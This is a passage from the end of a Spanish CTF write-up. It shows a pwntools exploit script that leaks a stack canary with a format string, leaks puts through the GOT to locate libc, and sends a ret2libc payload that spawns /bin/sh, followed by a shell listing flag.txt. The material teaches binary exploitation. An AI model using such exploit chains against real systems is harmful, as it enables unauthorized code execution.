 ```python

    i = -3727
    io.sendline(str(i))
    io.sendlineafter(b'Name?', b'%135$p')
    canary = int(io.recvline().decode().strip().split(": ")[1], 16)
    log.success(f'Canary: {hex(canary)}')

    io.recvlines(2)
    io.sendline(str(i))
    io.recvlines(2)

    payload = (
        b'A' * offset_canary +
        p32(canary) +
        b'A' * 12 +
        p32(exe.plt['puts']) +
        p32(exe.symbols.win) +
        p32(exe.got['puts'])
    )

    io.sendlineafter(b'Name?', payload)
    io.recvlines(2)
    puts_addr = u32(io.recvline()[:4])
    log.success(f'puts address: {hex(puts_addr)}')

    libc.address = puts_addr - libc.symbols['puts']
    binsh_addr = next(libc.search(b'/bin/sh'))

    payload2 = (
        b'B' * offset_canary +
        p32(canary) +
        b'B' * 12 +
        p32(libc.symbols['system']) +
        p32(exe.symbols.win) +
        p32(binsh_addr)
    )

    io.sendlineafter(b'Name?', payload2)
    io.interactive()

if __name__ == "__main__":
    main()

```

Y listo! Tendríamos una shell!

```python
$ ls
flag.txt
vuln
vuln.c
xinet_startup.sh
$  
```

Gracias por leer!
